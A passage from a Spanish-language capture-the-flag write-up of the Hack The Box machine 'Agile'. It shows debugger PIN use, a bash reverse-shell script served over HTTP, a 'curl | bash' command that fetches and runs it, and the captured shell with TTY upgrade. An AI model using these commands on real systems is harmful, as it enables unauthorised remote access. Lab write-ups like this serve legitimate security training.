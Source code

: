 
Genero el pin y lo introduzco en el debugger

```null
python3 generate_pin.py
101-245-952
```

Puedo ejecutar comandos como ```www-data```

<img src="/writeups/assets/img/Agile-htb/6.png" alt="">

Creo un archivo ```index.html``` que se encargue de enviarme una reverse shell

```null
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.16.63/443 0>&1'
```

Lo comparto con un servicio ```HTTP``` con ```python```

```null
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.203 - - [12/Aug/2023 10:05:48] "GET / HTTP/1.1" 200 -
```

Ejecuto e interpreto con bash

```null
os.popen("curl 10.10.16.63 | bash").read()
```

Gano acceso al sistema

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.63] from (UNKNOWN) [10.10.11.203] 47258
bash: cannot set terminal process group (1073): Inappropriate ioctl for device
bash: no job control in this shell
(venv) www-data@agile:/app/app$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<pp$ python3 -c 'import pty; pty.spawn("/bin/bash")'
(venv) www-data@agile:/app/app$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
(venv) www-data@agile:/app/app$ export TERM=xterm-color
(venv) www-data@agile:/app/app$ export SHELL=bash
(venv) www-data@agile:/app/app$ stty rows 55 columns 209
(venv) www-data@agile:/app/app$ source /etc/skel/.bashrc 
www-data@agile:/app/app$ 
```
